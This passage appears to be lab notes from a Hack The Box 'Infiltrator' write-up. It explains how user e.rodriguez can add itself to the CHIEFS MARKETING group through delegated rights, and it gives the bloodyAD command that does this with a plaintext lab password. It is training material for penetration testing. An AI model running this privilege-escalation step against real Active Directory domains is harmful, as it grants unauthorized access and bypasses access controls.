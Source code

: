 The user E.RODRIGUEZ@INFILTRATOR.HTB has the ability to add itself, to the group CHIEFS MARKETING@INFILTRATOR.HTB. Because of security group delegation, the members of a security group have the same privileges as that group.

By adding itself to the group, E.RODRIGUEZ@INFILTRATOR.HTB will gain the same privileges that CHIEFS MARKETING@INFILTRATOR.HTB already has.

![[Pasted image 20240904202011.png]]


```bash
bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" --kerberos -u "e.rodriguez" -p 'Password123' add groupMember "CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB" e.rodriguez
```

